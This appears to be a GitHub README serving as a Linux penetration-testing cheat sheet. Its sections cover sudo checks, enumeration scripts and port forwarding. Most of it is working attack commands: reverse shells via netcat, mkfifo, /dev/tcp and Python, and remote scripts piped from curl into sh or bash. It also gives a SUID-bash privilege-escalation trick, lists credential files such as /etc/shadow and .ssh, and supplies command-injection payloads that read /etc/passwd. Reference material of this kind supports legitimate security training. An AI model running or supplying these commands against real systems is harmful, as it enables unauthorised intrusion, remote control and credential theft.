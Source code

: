 <img height="100px" src="https://user-images.githubusercontent.com/28403617/172728126-5dc238f3-9491-415b-a5f6-bedbb62d01cd.svg#gh-light-mode-only" />
<img height="100px" src="https://user-images.githubusercontent.com/28403617/172728127-a6e102b5-225e-4c4f-9465-629b4d1452c9.svg#gh-dark-mode-only" />

---

- [Auto Script](#auto-script)
- [Command Injection](#command-injection)
- [File Enumeration](#file-enumeration)
- [FTP](#ftp)
- [Gdbserver](#gdbserver)
- [Port Forwarding](#port-forwarding)
- [Privilege Escalation](#privilege-escalation)
- [Reverse Shell](#reverse-shell)
- [SCP](#scp)
- [Sudo](#sudo)

# Sudo
```bash
sudo -l
```

# Auto Script
```bash
curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh
```

# Reverse Shell
### Server
```bash
nc -lp 4444
```

### reSH
```bash
# Client
resh ip 4444
# Server
resh 4444
```
[Source](/scripts/resh.py)

### Netcat
```bash
nc ip 4444 -e /bin/bash
```

### Mkfifo
```bash
mkfifo /tmp/f;nc ip 4444 0</tmp/f|/bin/sh -i 2>&1|tee /tmp/f
```

### Dev 
```bash
bash -c 'bash -i >& /dev/tcp/ip/4444 0>&1'"
```

### Python
```bash
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("ip",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

### TTY Support
```bash
bash -i
```

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

```bash
script -qc /bin/bash /dev/null
```

*[source](https://github.com/acole76/pentestmonkey-cheatsheets/blob/master/shells.md)*

# Privilege Escalation
```
/bin/cp /bin/bash /tmp/bash_up; /bin/chown user:group /tmp/bash_up; chmod g+s /tmp/bash_up; chmod u+s /tmp/bash_up
/tmp/bash_up -p
```

# SCP
### Download File
```
scp -P port user@192.168.1.ip:path .
```

### Upload File
```
scp -P port file user@192.168.1.ip:path
```

### Upload peda
```
scp -P 22 -r ~/.peda user@192.168.1.ip:/tmp/peda
```
# FTP
### Download all files
```
wget -m --user=user--password=fpassword ftp://10.10.11.160
```

# Gdbserver
*Port: 1337*
```
$ gdb
(gdb) target extended-remote ip:port
(gdb) remote get remote_file local_file
(gdb) remote put local_file remote_file
```

# File Enumeration
### Classic
- `/etc/passwd`  &  `/etc/shadow`
- `/www/html` ꞏ `/var/www` ꞏ `/srv/html` ꞏ `/usr/share/*`
- `/home/user/.ssh`
- `/etc/cron.d`
- `/opt/`

### Proc
`/proc/` contains useful information about the processes that are currently running

| directory	          | description                                     |
|---------------------|-------------------------------------------------|
| `/proc/PID/cmdline` | Command line arguments.                         |
| `/proc/PID/cwd`     | Link to the current working directory.          |
| `/proc/PID/environ` | Values of environment variables.                |
| `/proc/PID/exe`     | Link to the executable of this process.         |
| `/proc/PID/fd`      | Directory, which contains all file descriptors. |

### Command
```bash
find / -user user 2>&-
find / -group group 2>&-
find / -user root -executable -type f 2>&- | grep -v /bin/
```

```bash
/sbin/getcap -r *
```

### Script
```bash
curl "https://github.com/diego-treitos/linux-smart-enumeration/raw/master/lse.sh" -Lo lse.sh
chmod +x lse.sh
./lse.sh -l1
```

### Docker
```bash
curl -sL https://github.com/stealthcopter/deepce/raw/main/deepce.sh -O
```

# Command Injection
```bash
;{cat,/etc/passwd}
;cat${IFS}/etc/passwd;
; cat /etc/passwd ;
$(cat /etc/passwd)
`cat /etc/passwd`
&& cat /etc/passwd &&
|| cat /etc/passwd ||
< <(cat /etc/passwd)
| cat /etc/passwd
"; cat /etc/passwd "
```
[GTFOBins - Bypass  local security restrictions](https://gtfobins.github.io/)


# Port Forwarding

### Chisel

```bash
# Install chisel
curl https://i.jpillora.com/chisel! | bash
```

```bash
# Example: 8000 -> 4444

# Attacker machine:
chisel server -p 4444 --reverse

# Victim machine:
chisel client ip-server:4444 R:8000:127.0.0.1:8000
```

### SSH
```sh
ssh -L 8080:127.0.0.1:8080 user@ip
```
